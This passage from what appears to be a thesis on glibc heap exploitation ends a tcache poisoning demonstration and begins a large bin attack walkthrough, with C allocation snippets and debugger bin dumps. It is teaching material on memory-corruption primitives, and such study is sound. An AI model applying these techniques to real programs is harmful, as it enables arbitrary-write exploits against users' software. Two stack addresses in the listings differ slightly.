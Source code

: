 \documentclass{masterthesis}
\begin{document}
\begin{lstlisting}[frame=tlrb]
Tcachebins[idx=7, size=0x90] count=2  Chunk(addr=0x555555559330, size=0x90, flags=PREV_INUSE)  Chunk(addr=0x7fffffffde68, size=0x7ffff7fc7fc8, flags=)  Chunk(addr=0x555555555410, size=0x9066c3c9fffffcc0, flags=NON_MAIN_ARENA)  [Corrupted chunk at 0x8d4c5741fa1e0ff3]
\end{lstlisting}

Now, as you can see in the final layout of tcache , the previous chunk is not valid anymore , it is a controller located in the stack:
\begin{lstlisting}[language=c,frame=tlrb]
[ 0x555555559330 -> 0x7fffffffdee8 ]
\end{lstlisting}
In the final step with one allocation , we can remove top chunk from the tcache , so , the next allocation return our controller location (the size must be the same): 
\begin{lstlisting}[language=c,frame=tlrb]
malloc(128)
intptr_t *c = malloc(128);
\end{lstlisting}

\section{Large bin Attack}
As the name suggests, this attack is about the Large bins. The goal is to force a large bin to write data in a controlled location.
\begin{lstlisting}[language=c,frame=tlrb]
size_t target = 0;
size_t *p1 = malloc(0x428);
size_t *g1 = malloc(0x18);
size_t *p2 = malloc(0x418);
size_t *g2 = malloc(0x18);
\end{lstlisting}
The first step is to define the target, also, we need to define two chunks in the range size of large bins, moreover, we need to define two chunks between them to prevent them from merging or the top chunk. 
\begin{lstlisting}[language=c,frame=tlrb]
free(p1);
size_t *g3 = malloc(0x438);
\end{lstlisting}
In the second step, we free the biggest chunk, however, the freed chunk is not in the large bin yet. As we discussed, the freed chunk was added to unsorted bins at first, so, The best way to move it into the large bin is to allocate a new bigger chunk. In this way, the heap manager checks the chunk inside the unsorted bin, then adds them into the corresponding bins (Like other attacks).
\begin{lstlisting}[language=c,frame=tlrb]
free(p2);
\end{lstlisting}
In the third step, we freed the smaller chunk. Now we have one chunk inside the large bin and one chunk in the unsorted bin.
\begin{lstlisting}[language=c,frame=tlrb]
[+] unsorted_bins[0]: fw=0x5555555596e0, bk=0x5555555596e0
  Chunk(addr=0x5555555596f0, size=0x420, flags=PREV_INUSE)

[+] large_bins[63]: fw=0x555555559290, bk=0x555555559290
  Chunk(addr=0x5555555592a0, size=0x430, flags=PREV_INUSE)
\end{lstlisting}
\end{document}
